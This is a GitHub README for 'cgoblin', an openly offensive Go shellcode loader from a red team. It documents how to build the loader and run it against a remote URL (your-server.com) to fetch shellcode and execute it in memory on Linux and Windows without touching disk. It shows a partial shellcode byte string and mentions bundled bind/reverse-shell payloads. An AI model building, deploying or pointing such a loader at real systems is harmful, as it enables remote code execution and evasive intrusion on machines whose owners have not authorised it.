# 🧌 CGOblin – Cross-Platform Shellcode Loader

<img width="1024" height="1024" alt="cgoblin" src="https://github.com/user-attachments/assets/900668cf-cb18-4ef2-bab5-20aadcf01a36" />

**cgoblin** is a lightweight, cross-platform shellcode loader written in Go, capable of fetching and executing shellcode from a remote URL on both **Linux** and **Windows** systems. It leverages inline C via CGO to allocate executable memory and run position-independent machine code.

> 🔒 *For educational and red teaming purposes only.*

---

## 📦 Repository

- **URL**: [https://github.com/grisuno/cgoblin.git](https://github.com/grisuno/cgoblin.git)
- **Author**: [grisuno](https://github.com/grisuno)
- **Team**: LazyOwn RedTeam

---

## 🚀 Features

- ✅ Cross-platform support (Linux & Windows)
- ✅ Remote shellcode loading via HTTP(S)
- ✅ Shellcode parsing from `\xNN` hex format
- ✅ Memory allocation with execution permissions:
  - Uses `mmap()` on Linux
  - Uses `VirtualAlloc()` on Windows
- ✅ Minimal footprint and no disk staging (in memory only)
- ✅ Custom User-Agent and secure HTTP client settings

---

## 🛠️ Usage

### Build

```bash
# Linux
GOOS=linux go build -o loader_linux main.go loader_linux.go
```

```bash
# Windows
GOOS=windows go build -o loader_windows.exe main.go loader_windows.go
```

💡 Ensure CGO is enabled: CGO_ENABLED=1 (default when supported). 

```bash
# Linux
# Example
./loader_linux -url http://your-server.com/shellcode.txt
```

```bash
# Windows
# Example
powershell .\loader_windows.exe -url http://your-server.com/shellcode.txt
```

```bash
# shellcode
# Example
unsigned char buf[] = "\x6a\x29\x58\x99\x...";
```

⚠️ The loader parses only sequences matching \x.. and ignores everything else. 

```text
# Tree
# Example
.
├── go.mod               # Go module definition
├── main.go              # Entry point with CLI flag parsing
├── loader_linux.go      # Linux-specific execution logic (CGO + mmap)
├── loader_windows.go    # Windows-specific execution logic (CGO + VirtualAlloc)
├── shellcode_linux.txt  # Example Linux shellcode (bind/reverse shell)
└── shellcode_win.txt    # Example Windows shellcode (e.g., Calc or Cmd)
```

📝 Example shellcode files are provided for testing (non-malicious use recommended). 

## 🧪 Testing Safely
- To test without risk:

- Host a simple shellcode (e.g., execve("/bin/sh") on Linux or WinExec("calc.exe") on Windows).
- Use local HTTP server:

```bash
# Webserver
# Example
python3 -m http.server 8000
```
## 🛑 Disclaimer
This tool is intended for:

- Security research
- Red team operations
- Authorized penetration testing
- Do not use for unauthorized access or malicious purposes. The author and team assume no liability for misuse.

## 🤝 Team: LazyOwn RedTeam
A dedicated red team focused on offensive security, exploit development, and defensive evasion techniques.

"We break it to make it better — ethically." 

## 📄 License
This project is open-source for educational use. See LICENSE for details (**GPLv3**).

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
